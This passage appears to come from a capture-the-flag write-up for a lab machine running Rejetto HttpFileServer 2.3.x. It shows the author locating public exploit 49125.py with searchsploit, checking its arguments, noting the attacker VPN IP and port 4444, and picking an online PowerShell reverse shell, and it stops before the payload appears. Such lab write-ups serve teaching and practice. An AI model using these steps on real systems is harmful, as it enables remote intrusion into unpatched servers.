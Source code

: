```
$ searchsploit httpfileserver

-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                     | windows/webapps/49125.py
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Apparently an exploit is already on my system in `49125.py`, but where?

```
$ sudo updatedb

$ locate 49125.py

/usr/share/exploitdb/exploits/windows/webapps/49125.py
```

We can run it to see the expected arguments:

```
$ python3 /usr/share/exploitdb/exploits/windows/webapps/49125.py

Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command
list index out of range
```

## Getting a foothold

We'll need to provide the host and port we want to attack. This is easy, just `10.10.10.8` and `80`. What command to run is much more difficult.

We can take a reverse shell payload, but first we'll need to identify our IP address:

```
$ ip a show dev tun0

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none
    inet 10.10.14.3/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1001/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::5885:f985:a3e2:1620/64 scope link stable-privacy proto kernel_ll
       valid_lft forever preferred_lft forever
```

We can pick port `4444` that the reverse shell will connect back to. I found [online a Powershell reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1).
